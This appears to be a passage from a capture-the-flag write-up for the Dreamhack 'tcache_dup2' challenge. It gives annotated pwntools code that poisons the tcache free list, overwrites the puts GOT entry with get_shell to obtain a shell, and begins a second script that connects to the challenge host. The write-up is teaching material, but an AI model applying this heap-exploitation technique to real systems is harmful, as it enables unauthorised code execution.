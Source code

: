 ```
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> puts@got
# tc_idx = 2
# chunk : ptr[1]
puts_got = elf.got['puts']
modify(1, 0x10, p64(puts_got))


# tcache[0x20] : puts@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

# `ex_wrong1.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 17171)
e = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


```